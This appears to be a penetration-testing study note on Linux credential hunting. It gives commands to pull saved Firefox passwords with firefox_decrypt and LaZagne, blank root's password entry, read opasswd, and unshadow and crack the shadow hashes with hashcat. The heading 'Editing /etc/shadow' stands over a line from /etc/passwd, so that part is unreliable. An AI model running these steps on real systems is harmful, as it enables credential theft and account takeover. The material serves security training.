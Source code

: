 Firefox
`ls -l .mozilla/firefox/ | grep default `
`cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .`

Decrypting Firefox Credentials
`python3.9 firefox_decrypt.py`

`python3 laZagne.py browsers`


# Passwd, Shadow & Opasswd
Linux-based distributions can use many different authentication mechanisms. One of the most commonly used and standard mechanisms is Pluggable Authentication Modules (PAM). The modules used for this are called `pam_unix.so` or `pam_unix2.so` and are located in `/usr/lib/x86_x64-linux-gnu/security/` in Debian based distributions. These modules manage user information, authentication, sessions, current passwords, and old passwords. For example, if we want to change the password of our account on the Linux system with passwd, PAM is called, which takes the appropriate precautions and stores and handles the information accordingly.


### Hash type in shadow:
    $1$ – MD5
    $2a$ – Blowfish
    $2y$ – Eksblowfish
    $5$ – SHA-256
    $6$ – SHA-512

Editing `/etc/shadow`: `root:x:0:0:root:/root:/bin/bash` --> `root::0:0:root:/root:/bin/bash`
`head -n 1 /etc/passwd`
`su`

### Opasswd

The PAM library (pam_unix.so) can prevent reusing old passwords. The file where old passwords are stored is the /etc/security/opasswd. Administrator/root permissions are also required to read the file if the permissions for this file have not been changed manually.
`sudo cat /etc/security/opasswd`

```bash
sudo cp /etc/passwd /tmp/passwd.bak 
sudo cp /etc/shadow /tmp/shadow.bak 
unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes

hashcat -m 1800 -a 0 /tmp/unshadowed.hashes rockyou.txt -o /tmp/unshadowed.cracked
cat md5-hashes.list
hashcat -m 500 -a 0 md5-hashes.list rockyou.txt
```